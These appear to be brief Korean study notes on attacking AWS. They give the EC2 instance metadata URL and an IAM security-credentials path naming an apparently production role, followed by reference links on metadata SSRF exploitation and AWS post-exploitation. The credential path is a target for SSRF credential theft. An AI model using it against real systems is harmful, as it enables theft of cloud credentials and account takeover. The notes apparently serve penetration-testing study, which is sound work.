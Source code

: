 aws 공격
http://169.254.169.254/latest 이거
/latest/meta-data/iam/security-credentials/pf-new-prod-ec2-iam-role


https://gist.github.com/serithemage/b87d47cdc5e3af28f1bf418e7b8f8950

## [0x0] reference
---
국내 자료
- https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
- https://www.skshieldus.com/download/files/download.do?o_fname=EQST%EA%B7%B8%EB%A3%B9%EC%9D%B4%20%EC%A0%9C%EC%95%88%ED%95%98%EB%8A%94%20%ED%81%B4%EB%9D%BC%EC%9A%B0%EB%93%9C%20%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9%20%EB%B0%A9%EB%B2%95%EB%A1%A0(AWS).pdf&r_fname=20220217153343976.pdf

해외 자료
- https://cloud.hacktricks.xyz/v/kr-cloud/pentesting-cloud/aws-security/aws-post-exploitation
